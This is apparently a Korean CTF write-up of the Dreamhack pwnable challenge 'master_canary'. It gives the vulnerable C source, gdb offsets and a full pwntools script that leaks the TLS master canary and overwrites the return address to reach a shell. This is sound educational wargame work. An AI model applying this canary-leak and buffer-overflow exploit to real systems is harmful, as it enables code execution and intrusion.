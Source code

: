 ```yaml
---
published: true
image: /img
layout: post
title: "[Dreamhack] PWN master_canary"
excerpt: "드림핵 포너블 master_canary 문제풀이"
tags: [Dreamhack, pwnable, wargame, writeup]
math: true
date: 2023-03-12 18:00
---
```


이번 문제는 드림핵 master_canary 문제다. 문제 제목 그대로 master canary를 릭해서 푸는 문제이다.

문제 환경으 ubuntu16:04 버전을 사용한다. 우선 해당 문제의 소스코드를 살펴보자.

```c
// gcc -o master master.c -pthread
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
#include <pthread.h>

char *global_buffer;

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(60);
}

void get_shell() {
    system("/bin/sh");
}

void *thread_routine() {
    char buf[256];

    global_buffer = buf;

}
void read_bytes(char *buf, size_t size) {
    size_t sz = 0;
    size_t idx = 0;
    size_t tmp;

    while (sz < size) {
        tmp = read(0, &buf[idx], 1);
        if (tmp != 1) {
            exit(-1);
        }
        idx += 1;
        sz += 1;
    }
    return;
}
int main(int argc, char *argv[]) {
    size_t size;
    pthread_t thread_t;
    size_t idx;
    char leave_comment[32];


    initialize();

    while(1) {
        printf("1. Create thread\n");
        printf("2. Input\n");
        printf("3. Exit\n");
        printf("> ");
        scanf("%d", &idx);

        switch(idx) {
            case 1:
                if (pthread_create(&thread_t, NULL, thread_routine, NULL) < 0)
                {
                    perror("thread create error");
                    exit(0);
                }
                break;
            case 2:
                printf("Size: ");
                scanf("%d", &size);

                printf("Data: ");
                read_bytes(global_buffer, size);

                printf("Data: %s", global_buffer);
                break;
            case 3:
                printf("Leave comment: ");
                read(0, leave_comment, 1024);
                return 0;
            default:
                printf("Nope\n");
                break;
        }
    }
    

    return 0;
}
```

위 코드에서 유심히 봐야 할 부분은 case 1: 부분의 pthread_create 함수이다. thread_routine 함수에서는 size에 대한 검증이 없어 버퍼 오버플로우가 발생한다. 또한 스레드 함수인 thread_routine은 TLS와 인접하게 생성되므로 오버플로우를 통해서 TLS에 있는 마스터 카나리 값을 릭 할수 있는 취약점이 존재한다.


공격 시나리오를 생각해보자

우선 1번 메뉴를 통해 스레드를 생성한다. 여기서 thread_routine 함수의 size 미 검증으로 인한 버퍼 오버플로우 취약점이 발생한다. 함수 내부에서 사용되는 buf변후는 전역 변수인 global_buffer 포인터에 대입된다.

이후 2번 메뉴를 통해서 원하는 크기만큼 global_buffer에 값을 쓴다. 여기서 global_buffer는 스레드 함수에서 사용되어 TLS와 인접하게 생성된다. 따라서 buf에서 master canary까지의 거리를 구해 카나리 값 직전까지 덮으면 master canary의 값을 leak 할수 있다.

그 다음 3번 메뉴를 통해서 스텍 오버플로우를 일으킨다. 이때 2번 메뉴를 통해 leak한 canary를 사용해 리턴 주소를 get_shell() 로 바꾼다.


이 정도면 공격에 성공할 것 같다. 디버깅 하면서 하나씩 살펴보자.

gdb를 통해 확인 해 보면 thread_retine에서의 buf 값은 다음과 같다.
```
0x400a75 <thread_routine+26>    lea    rax, [rbp - 0x110] 
<RAX  0x7ffff77eee40>
```
이후 마스터 카나리의 위치를 계산하고 둘의 차를 구한다.
```
pwndbg> x/x $fs_base+0x28
0x7ffff77ef728: 0x4ba9d200
pwndbg> x/x 0x7ffff77ef728-0x7ffff77eee40
0x8e8:  Cannot access memory at address 0x8e8
```
둘의 차는 0x8e8이다. 다만 카나리 값이 하위 1바이트는 00이기 때문에 이 또한 오버라이트 해야지 printf가 00을 만나지 않고 카나리 값을 전부 leak 할 수 있다.

따라서 2번 메뉴를 통해 0x8e8+1 만큼의 size를 주고 A를 0x8e8+1개 입력해 릭 한다.

이후 main 함수에서 다음과 같은 부분을 살펴보자.
```
0x400c39 <main+308>:   lea    rax,[rbp-0x30]
```
이 부분은 3번 메뉴를 통해 값을 입력 받는 leave_comment 변수의 크기이다 0x30의 크기를 가지고 있으나 1024만큼 입력이 가능해 오버플로우가 발생한다.

따라서 A*40 + canary + B*8 + get_shell() 을 페이로드로 입력하면 공격에 성공한다.



```python
from pwn import *
context.update(arch='amd64', os='linux')
#context.log_level = 'debug'

p = remote("host3.dreamhack.games", 10039);
#p = process("./iofile_vtable_check", env={'LD_PRELOAD':'./libc.so.6'})
#p = process("./master_canary")
elf = ELF("./master_canary")
#libc = ELF("./libc.so.6")

master_to_buf = 0x8e9
get_shell = 0x400a4a

p.sendlineafter(b"> ", b"1")
p.sendlineafter(b"> ", b"2")

p.sendlineafter(b"Size: ", str(master_to_buf))
p.sendlineafter(b"Data: ", b"A"*master_to_buf)

p.recvuntil(b"A"*master_to_buf)
canary = u64(b"\x00"+p.recvn(7))
print(f"canary : {hex(canary)}")

p.sendlineafter(b"> ", b"3")

payload = b"A"*40
payload += p64(canary)
payload += b"B"*8
payload += p64(get_shell)

p.sendlineafter('Leave comment: ', payload)

p.interactive()
```
